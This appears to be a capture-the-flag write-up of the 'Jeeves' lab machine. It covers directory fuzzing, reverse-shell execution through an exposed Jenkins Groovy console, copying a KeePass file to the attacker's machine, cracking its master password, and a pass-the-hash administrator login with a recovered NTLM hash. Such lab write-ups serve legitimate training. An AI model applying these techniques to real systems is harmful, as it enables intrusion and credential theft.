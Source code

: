 # Enumeration:
![nmap_scan](images/jeeves/nmap_scan.png) </br> </br>
**Initial Shell:** </br>
Navigating to the webserver we get this: </br>
![website_main_page](images/jeeves/website_main_page.png) </br>
When trying to submit anything, we get this: </br>
![website_error_message](images/jeeves/website_error_message.png) </br>
I tried running a fuzzing scan using gobuster, but I didn't find anything. </br>
I then navigated to the page on port 50000, and saw an error message: </br>
![http_error_msg](images/jeeves/http_error_msg.png) </br>
Tried running a fuzzing scan with gobuster again: </br>
```bash
root@kali# gobuster -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.63:50000/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Extensions   : .txt,.php,.html
=====================================================
/askjeeves (Status: 302)
```
</br>

Browsing to the ```askjeeves``` directory, I saw this page: </br>
![askjenkins_mainpage](images/jeeves/askjenkins_mainpage.png) </br> </br>
Browsing through the system, I found a way to execute arbitrary code on the webserver: </br>
I went to the ```manage jenkins``` tab, and saw this: </br>
![manage_jenkins](images/jeeves/manage_jenkins.png) </br>
This is a groovy script console, to exploit it I used a groovy reverse shell I found on [GitHub](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) </br>
Opened a netcat listener on another terminal, and it worked. </br> </br>
**Proof Of Screenshot:** </br>
![initial_shell](images/jeeves/initial_shell.png) </br> </br>
# Privilege Escalation: 
</br>

I solved it in two ways, one way is by exploiting ```Juicy Potato``` and the second way is enumerating and
finding ```kohsuke``` user credentials in the keypass password manager. </br>
I will show the second way since I believe that was the intentional way to solve this machine. </br>
After getting an initial shell , I did a bit of enumeration on ```kohsuke``` user directories (The user I got
access to). I found this file in the Documents directory: </br>
![ceh_file](images/jeeves/ceh_file.png) </br>
A ```KDBX``` file is a password manager for Windows. It stores an encrypted database of passwords that can be
viewed only using a master password set by the user. </br>
I copied the file to my Kali Machine with this command: ```copy CEH.kdbx \\10.10.14.21\kali``` </br>
I used ```keepass2john``` to convert it into a hash that we could crack later: </br>
![keepass2john](images/jeeves/keepass2john.png) </br>
I saved it into a file called hash, and cracked it using john the ripper: </br>
```john hash --wordlist=/usr/share/wordlists/rockyou.txt``` </br>
This is the result I got: </br>
![hash_crack](images/jeeves/hash_crack.png) </br>
I Installed the password manager keepassx to open the file: ```sudo apt-get install keepassx``` </br>
Opened the file: </br>
```Database -> Open database -> CEH.kdbx -> Enter moonshine1 as the password.``` </br>
![keepassx_file_opened](images/jeeves/keepassx_file_opened.png) </br>
The only password that stood out was the first one (Backup stuff), it contained a hash that looked like a NTLM hash: </br>
```aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``` </br>
I tried using 'pass the hash' and log in as an administrator with psexec: </br>
```psexec.py Administrator@10.10.10.63 -hashes``` </br>
```aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00``` </br> </br>
**Proof Of Screenshot:** </br>
![privesc_shell](images/jeeves/privesc_shell.png)
